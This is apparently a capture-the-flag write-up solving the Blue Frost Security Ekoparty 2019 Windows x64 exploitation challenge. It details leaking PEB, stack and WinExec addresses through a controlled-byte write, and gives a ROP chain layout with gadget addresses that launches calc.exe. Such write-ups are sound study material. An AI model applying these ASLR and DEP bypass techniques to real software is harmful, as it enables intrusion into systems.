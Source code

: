 ```yaml
---
layout: post
title: Solving the BFS Ekoparty 2019 Exploitation Challenge
tags: []
---
```



This is a quick write up about how one of our team members, Thanasis, solved the challenge for EkoParty 2019. This was a fun challenge and thanks to Lukas and Nico from Blue Frost Security for making it happen(and for supporting our community).

More information about the challenge can be found at:  

[https://labs.bluefrostsecurity.de/blog/2019/09/07/bfs-ekoparty-2019-exploitation-challenge/](https://labs.bluefrostsecurity.de/blog/2019/09/07/bfs-ekoparty-2019-exploitation-challenge/)

The application as the requirements provided, need to run in windows 10 x64 (RS6) version and the goal is to bypass ASLR and execute a calc.exe process. 


By opening the application we can see via netstat that it binds on port 54321 on 0.0.0.0 (all the machine’s interfaces).  

By opening Ghidra and going to the main function it is obvious that some checks need to bypassed in order to correctly send a payload to the application.
In Ghidra, if we check the function that is called after the new connection is accepted, we see this: 

pic1 [![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)


Upon first check, it checks for the first 0x10 bytes(16 chars) as a header. 
The second and third checks: If the header starts with 0x393130326f6b45(Ekoparty2019) then we are allowed to send a user_message as long as it is smaller than 0x201 bytes(513 chars).
The last fourth check is quite important, we can send all this packet structure but it needs to be aligned correctly for 8 bytes. Meaning we could send 16,24,32 and so on.
After we succeed in sending a big buffer, it appears that the application crashes after 529 bytes or so. By sending 528 bytes structured correctly with the cookie included in the beginning, we notice that before the calling function sub_140001170, we actually control the RAX, which is the 513 bytes.
Before this, there is this instruction

`lea     rcx, unk_7FF6A8A9E520`  
 unk_7FF6A8A9E520, holds an array with this structure

pic2 [![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

By sending the 513 characters, for example as A or \x41 we can make it so the function will return our byte + the rest of the pattern. In this case c3c3c3c3 + ourbyte+488b01.
The function sub_140001170 before it returns this value turns it to little endian, making it ourbyte+488b01c3c3c3c3. So we get 41488b01c3c3c3c3.
This value will be used in WriteProcessMemory as lpBuffer, basically copying these bytes to the function sub_7FF6A8A91000 as instructions allowing to control what we can execute when we reach it.
Although this is quite good, it provides a limitation of instructions, meaning we can only use instructions byte+488b01c3c3c3c3.
I made a quick script in python producing all the values in a file

`byte=0x00
endbyte=0xff
start ="848b01c3c3c3"
for i in xrange(byte,endbyte+1):
            print format(i,'X')+ start`


With a one-liner bash I got all the values:

`for i in $(cat list_instructions);do echo -e "\n$i" && rasm2 -b 64 -D $i ; done  > instructions`  

One good thing in this case is that we can actually control the RCX from our input buffer with the characters provided from 513 till 528.
The first thing I had to do was, get the process address from PEB.
By sending in our payload these are the last bytes: 
“\x65\x65\x65\x65\x65\x65\x65\x65\x60\x00\x00\x00\x00\x00\x00\x00”
We could achieve and acquire the PEB. \x65 is meant for the combination from the previous instructions.
65488b01c3 

`0:  65 48 8b 01             mov    rax,QWORD PTR gs:[rcx]
4:  c3                      ret`


It is well known that in x64 bit windows, GS register is a special register which points to PEB by providing the accurate offset. In this case since we could control RCX, we pointer GS directly to the PEB which is at offset 0x60 hence the highlighting.
Since the application will always sends us back the data leaked we can get this address and use it.
The next step would be to get the Image Base Address of the application.
Image Base Address is located from the PEB + 0x10 offset. In this case we had to set the address + 0x10 as a pointer to RCX to be able to leak the address.
In this case, according to our possible instructions we chose:

`0:  47 8b 01                mov    rax,QWORD PTR [rcx]
3:  c3                      ret`


The first byte 47 and these as before are the last bytes of our payload:
“\x47\x65\x65\x65\x65\x65\x65\x65 + address+0x10”

As an end goal we need to create a ROP chain to execute calc.exe.
Since we would like to bypass ASLR, leakage is already useful but in case we would need to execute something, we would have to bypass DEP as well.
In this case it is good that we have, in the beginning of the application, a winexec call.

pic3 [![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

Therefore, in the end we will call calc.exe through winexec but, winexec requires that the application will be executed to be pointed at, hence a pointer that points to the string calc.exe and a null terminator.
Somehow I had to be able to find that place in memory with my string. The best way was to get the StackBase Limit and get towards the stack base to find where it is.
First, I had to leak StackBase Limit.
StackBaseLimit is in the TEB at 0x10 offset through the GS register.
The initial request I used :

`0:  65 48 8b 01             mov    rax,QWORD PTR gs:[rcx]
4:  c3                      ret`

I controlled the RCX by setting it to 0x10.
After actually getting the leaked address of the Stack Base Limit, it is time for a loop towards the Stack Base to find the correct string which would be calc.exe.
By doing a loop, I started leaking the memory cells of the stack up to a point where it detected my string.
The moment the string was found, I saved into a counter and multiplied by 0x08 to get how many cells down the stack I had to go.
So now I had the address of the string.
In the above scenario I used: 

`
0:  47 8b 01                mov    rax,QWORD PTR [rcx]
3:  c3                      ret`

With RCX as the Stack Base Limit and constantly adding 0x08 to it.
The next step would be to get the winexec’s address on the stack. By checking the .rdata of the application I could see the offset of it.

pic4 [![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

In this case, I need to leak the address from Image Base Address + 0x9010 offset.
By using exactly the same instructions as before:

`0:  47 8b 01                mov    rax,QWORD PTR [rcx]
3:  c3                      ret`

Then adding RCX as the Image Base Address+0x9010 , I get the leaked address for Winexec on the stack.
For the final request to the application I used 

`0:  51                      push   rcx
1:  48 8b 01                mov    rax,QWORD PTR [rcx]
4:  c3                      ret`

I set the RCX to a pivot gadget “add rsp,78h ; ret”, so I can stack pivot.
I used Ropper and rp++ to get gadgets out of the application.
Thankfully, the ret instruction gets us to a point in our buffer.
According to MSDN Wincalc requires 2 arguments, the name of the application and a number which will set the mode of the window.
In windows 10 x64 , the calling convention is rcx,rdx,r8,r9 and top of the stack.
The structure of the packet is this. The whole packet is the cookie + 528 characters.
Structure:

`|16 junk bytes| - padding
|pop_rax_gadget| - Pop Image Base Address for having a valid address on RAX because the only pop rdx and pop rdx gadgets set bad values to it.
|Image Base Address – 0x08| - valid address
|pop_rdx_gadget| - pop rdx gadget to put 0x01 for the Wincalc second argument.
|0x01|- Winexec UINT   uCmdShow
|pop_rax_gadget| - again for the same reason that the pop rcx gadget will set bad value to rax
|pop_rcx_gadget| - set the pointer address that points to calc.exe\x00
|address_pointing_calc| - address that points to calc.exe\x00
|72 junk bytes| - padding
|ret_gadget| - just a return gadget to fix the stack alignment to 16-byte format, because CreateProcessA is called inside the Winexec function which includes movabs instruction. Movabs instructions check if the stack is aligned and if not it will raise an exception.
|winexec_leaked_address| - winexec address on the stack.
|add_rsp_0x78| - adds to current RSP + 0x78 bytes to reach the next stack pivot.
|120 junk bytes| - padding.
|add_rsp_0x78| - adds to current RSP + 0x78 bytes to reach the next stack pivot.
|120 junk bytes| - padding.
|add_rsp_0x28| - adds to current RSP + 0x28 bytes to reach the next stack pivot.
|40 junk bytes| - padding.
|add_rsp_0x58| - adds to current RSP + 0x58 bytes to reach the original return pointer address and continue the execution of the application instead of crashing it.
|8 junk bytes| - padding.
|calc.exe\x00| - string to set in memory.
|15 junk bytes| - padding.`


Gadgets Used:

`0x14000158b: add rsp, 0x78 ; ret  ;  

0x0000000140004525: pop rdx; add byte ptr [rax], al; cmp word ptr [rax], cx; je 0x4530; xor eax, eax; ret; 

0x140001167: pop rax ; ret  ; 

0x00000001400089ab: pop rcx; or byte ptr [rax], al; add byte ptr [rax - 0x77], cl; add eax, 0x4b12; add rsp, 0x48; ret;

0x0000000140001164: add rsp, 0x58; ret; 

0x14000158f: ret  ;  

0x00000001400011d5: add rsp, 0x28; ret;`


Full Working exploit: https://github.com/trickster0/BFS-Ekoparty-2019-challenge

Proof of Concept:

pic4 [![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)


Results:

pic5 [![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)
